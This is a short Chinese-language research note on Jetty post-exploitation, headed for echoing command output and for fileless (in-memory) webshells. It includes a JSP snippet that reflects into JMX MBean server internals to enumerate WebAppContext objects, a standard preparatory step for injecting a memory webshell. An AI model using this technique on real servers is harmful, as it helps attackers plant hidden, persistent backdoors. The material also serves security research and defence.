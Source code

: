 利用研究
---

### 回显

https://www.cnblogs.com/ph4nt0mer/p/12785168.html

### 无文件马

#### WebAppContext

##### 通过Mbean获取Context

- 参考
    - https://paper.seebug.org/1441/#2mbeancontext
    - https://www.coder.work/article/5540502

getConext.jsp

```java
<%
        try{
        JmxMBeanServer jmxMBeanServer=(JmxMBeanServer)ManagementFactory.getPlatformMBeanServer();
        // 获取mbsInterceptor
        Field field=Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        field.setAccessible(true);
        Object mbsInterceptor=field.get(jmxMBeanServer);
        // 获取repository
        field=Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        field.setAccessible(true);
        Repository repository=(Repository)field.get(mbsInterceptor);
        /**
         * ObjectName 表示一个Mbean的对象名称
         * repository.query()
         *     选择并检索名称与指定对象名称模式匹配并与指定查询表达式匹配的mbean列表(可选)。
         *         参数:
         *             pattern——要检索的MBean的名称——可以是一个特定的对象，也可以是允许选择多个MBean的名称模式。
         *             query -选择对象时要应用的查询表达式-当存储库服务不支持筛选时，此参数将被忽略。
         *             返回:
         *                 选中的mbean列表。集合中可能返回0个、一个或多个mbean。
         */
        Set<NamedObject> namedObjectSet=repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"),null);
        for(NamedObject namedObject:namedObjectSet){
        out.write(String.valueOf(namedObject));
        }

        }catch(Exception e){
        e.printStackTrace();
        }

        %>
```
